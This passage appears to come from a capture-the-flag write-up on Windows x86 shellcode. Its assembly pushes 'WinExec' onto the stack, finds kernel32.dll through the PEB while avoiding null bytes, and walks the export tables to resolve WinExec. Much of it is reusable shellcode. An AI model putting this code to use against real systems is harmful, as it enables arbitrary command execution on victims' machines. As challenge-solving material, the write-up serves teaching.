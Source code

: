 We then push the string `WinExec` onto the stack:

```asm
xor esi, esi
push esi			; null termination
push 0x63
pushw 0x6578
push 0x456e6957
mov [ebp-4], esp    ; var4 = "WinExec\x00"
```

Then, we work on finding `kernel32.dll`'s base address. I had originally tried to just hard code it, and it worked while I attached the debugger, but didn't work on remote, and it didn't really work locally either... I had trouble with docker, so I went through all the steps that the writeup did. The advantage is, this is more or less portable for similar level shellcode chals.

```asm
; Find kernel32.dll base address
xor esi, esi			; esi = 0
mov ebx, [fs:0x30 + esi]  	; avoding null bytes
mov ebx, [ebx + 0x0C] 
mov ebx, [ebx + 0x14] 
mov ebx, [ebx]	
mov ebx, [ebx]	
mov ebx, [ebx + 0x10]		; ebx has kernel32 base addr
mov [ebp-8], ebx 		; var8 = kernel32.dll base addr
```

This is all good... let's move on to finding the WinExec address, by pulling up all the of the address tables that we need to iterate through kernel32.dll

## Finding `WinExec` using Tables <a name="WinExec"></a>

```asm
	; Find WinExec address
	mov eax, [ebx + 0x3C]		; RVA of PE signature
	add eax, ebx       		; Address of PE signature = base address + RVA of PE signature
	mov eax, [eax + 0x78]		; RVA of Export Table
	add eax, ebx 			; Address of Export Table

	mov ecx, [eax + 0x24]		; RVA of Ordinal Table
	add ecx, ebx 			; Address of Ordinal Table
	mov [ebp-0x0C], ecx 		; var12 = Address of Ordinal Table

	mov edi, [eax + 0x20] 		; RVA of Name Pointer Table
	add edi, ebx 			; Address of Name Pointer Table
	mov [ebp-0x10], edi 		; var16 = Address of Name Pointer Table

	mov edx, [eax + 0x1C] 		; RVA of Address Table
	add edx, ebx 			; Address of Address Table
	mov [ebp-0x14], edx 		; var20 = Address of Address Table

	mov edx, [eax + 0x14] 		; Number of exported functions

	xor eax, eax 			; counter = 0
```
